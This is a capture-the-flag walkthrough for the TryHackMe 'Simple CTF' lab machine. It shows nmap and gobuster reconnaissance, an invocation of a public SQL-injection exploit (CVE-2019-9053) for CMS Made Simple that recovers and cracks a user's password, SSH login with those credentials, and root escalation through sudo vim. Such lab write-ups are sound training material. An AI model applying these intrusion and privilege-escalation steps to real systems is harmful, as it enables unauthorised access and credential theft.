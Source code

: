 ![Screenshot 2023-08-20 224751.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot 2023-08-20 161553.png)

# Simple_CTF

The skills to be tested and needed to solve this room are: **nmap**, **GoBuster**, **privilege escalation**, **Sudo**, **find**, and **gtfobins**.

This is a **free** room, which means anyone can deploy virtual machines in the room (without being subscribed)! Created by [MrSeth6797](https://tryhackme.com/p/MrSeth6797)

You can access the room at [https://tryhackme.com/room/rootme](https://tryhackme.com/room/easyctf)

Target Machine IP address can change during the process.

## Footprinting and Reconnaissance

## Nmap Scan

nmap -A -Pn -T4 -oN nmap_result.txt 10.10.150.91

```bash
# Nmap 7.92 scan initiated Sat Aug 19 11:52:12 2023 as: nmap -A -Pn -T4 -oN nmap_result.txt 10.10.150.91
Nmap scan report for 10.10.150.91
Host is up (0.42s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.11.201
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (92%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   380.71 ms 10.17.0.1
2   ... 4
5   414.08 ms 10.10.150.91

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 19 11:53:33 2023 -- 1 IP address (1 host up) scanned in 81.82 seconds
```

After analyzing the nmap scan it look like their is total three port are open . and the ssh service is running in different port number 2222. 

## Run gobuster to look for hidden directories and files on the web server.

gobuster dir -u [http://10.10.172.154/](http://10.10.172.154/) -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_output.txt -t 20

![Screenshot 2023-08-20 225603.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_225603.png)

We have found the hidden directorie called `/simple`

![Screenshot 2023-08-20 224751.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_224751.png)

# **CMS Made Simple - CVE-2019-9053**

We find an SQL Injection vulnerability that affects this CMS, we use the exploit to obtain the username and password.

**[CMS Made Simple < 2.2.10 - SQL Injection](https://www.exploit-db.com/exploits/46635)**

To run the above exploit we have to Interpreted the exploit with python2 and install the necessary required module like termcolor 

```bash
ls /usr/bin/python*
sudo ln -sf /usr/bin/python2.7 /usr/bin/python			//to link the python version
```

```bash
Download the termcolor module source code from the PyPI website: https://pypi.org/project/termcolor/.
Unzip the file.
Change directory to the termcolor directory.
Run the following command to install the termcolor module:
python setup.py install
pip install --user termcolor==1.1.0
```

```bash
python CVE-2019-9053.py -u http://10.10.230.238/simple/ --crack -w 10k-most-common.txt
 
[+] Salt for password found: 1dac0d9***fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468b*****a84c7eb73846e8d96
[+] Password cracked: ******
```

We tried to use the credentials we found in the Made Simple panel but we failed to start session.

# **SSH - User**

We use the credentials that we find in the SSH service to obtain a shell and our flag **user.txt**.

![Screenshot 2023-08-20 230351.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_230351.png)

# **PRIVILEGE ESCALATION**

We make a simple enumeration with `sudo -l`  to list the commands / files that we can execute without password and with root privileges, we see `/usr/bin/vim`, to get a shell we use **[GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#sudo)**.

![Screenshot 2023-08-20 230921.png](Simple_CTF%20434d9e130dc549059eec37b68aa59763/Screenshot_2023-08-20_230921.png)